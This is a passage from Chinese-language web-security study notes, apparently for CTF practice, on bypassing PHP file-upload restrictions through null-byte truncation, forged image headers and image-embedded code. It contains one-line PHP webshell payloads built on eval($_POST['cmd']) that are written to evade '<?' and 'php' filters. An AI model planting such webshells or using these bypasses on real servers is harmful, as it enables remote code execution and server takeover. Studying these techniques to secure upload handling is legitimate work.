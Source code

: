 **注意：上传的文件名取决于你上传的htaccess内写的内容。**

#### %00截断

前提

- **PHP 版本 < 5.3.4**（后续版本修复了 `%00` 截断漏洞）。
- **`magic_quotes_gpc = Off`** （否则 `%00` 会被转义为 `\0`，无法截断）。

原理：php的一些函数的底层是C语言，而`move_uploaded_file`就是其中之一，遇到`0x00`即`\0`会截断（作用相当于结束符，会在截断处停止读取后面的内容），0x表示16进制，URL中`%00`解码成16进制就是0x00。  而 php读取的方式是从后往前读取，遇到0x00时停止 ，故

`%00`截断分为get提交和post提交两类，区别在于对于`%00`的处理上有所不同，使用POST传地址，post不会像get对`%00`进行自动解码，需要手动完成（保持 `%00` 为 URL 编码，不能解码）

### 文件头（内容）检测

要绕过文件头检测就要在文件开头写上如下的值

```text
.jpg	FF D8 FF E0 00 10 4A 46 49 46
.gif	47 49 46 38 39 61
.png	89 50 4E 47
```

图像内容检测常用的是`getimagesize()`函数，需要把文件头部分伪造，也就是在绕过文件头检测的基础上还加了一些文件信息。

建议直接制造一个[图片马](#_15)

例如：

```
GIF89a
(...some binary data for image...)
<?php phpinfo(); ?>
(... skipping the rest of binary data ...)
```



另一种是判断是否包含`<?`或者`php`

绕过`<?`：

```text
<script language='php'>@eval($_POST[cmd]);</script>
```

绕过`php`：

```text
<?= @eval($_POST['cmd']);?>
```



绕过方法：

- 对渲染/加载测试的攻击方式是代码注入绕过。使用winhex在不破坏文件本身的渲染情况下找一个空白区进行填充代码，一般为图片的注释区。
- 对二次渲染的攻击方式就是攻击文件加载器自身。例如：

```text
上传文件数据不完整的gif文件 -> 触发报错imagecreatefromgif()函数
上传文件数据不完整的png文件 -> 触发报错imagecreatefrompng()函数
```
